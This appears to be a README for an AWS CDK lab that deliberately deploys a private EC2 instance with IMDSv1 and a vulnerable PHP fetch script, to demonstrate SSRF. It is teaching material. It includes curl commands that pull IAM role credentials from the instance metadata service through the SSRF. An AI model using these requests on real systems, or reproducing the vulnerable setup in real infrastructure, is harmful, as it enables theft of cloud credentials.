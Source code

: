 # ALB + Private EC2 SSRF Vulnerability Demo

This CDK project demonstrates SSRF (Server-Side Request Forgery) vulnerability against IMDSv1 in a private subnet EC2 instance behind an Application Load Balancer.

## ⚠️ Security Warning

**This project is for educational and testing purposes only.** It intentionally creates vulnerable infrastructure with:
- IMDSv1 enabled (vulnerable to SSRF attacks)
- A PHP script with SSRF vulnerability
- Insecure network configurations

**DO NOT deploy this in production environments.**

## Architecture

- VPC with public and private subnets
- Application Load Balancer in public subnet
- EC2 instance in private subnet with IMDSv1 enabled
- Vulnerable PHP script for SSRF testing
- SSM endpoints for remote access

## Prerequisites

- AWS CLI configured
- AWS CDK installed (`npm install -g aws-cdk`)
- Node.js and npm

## Deployment

```bash
npm install
cdk bootstrap
cdk deploy
```

## Testing SSRF Attack

After deployment, get the ALB DNS name from the output and test:

```bash
# Get IAM role credentials via SSRF
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]"
```

## Cleanup

```bash
cdk destroy
```

## Security Mitigation

To secure this setup:
1. Enable IMDSv2 only (`requireImdsv2: true`)
2. Remove the vulnerable PHP script
3. Implement proper input validation
4. Use WAF to block malicious requests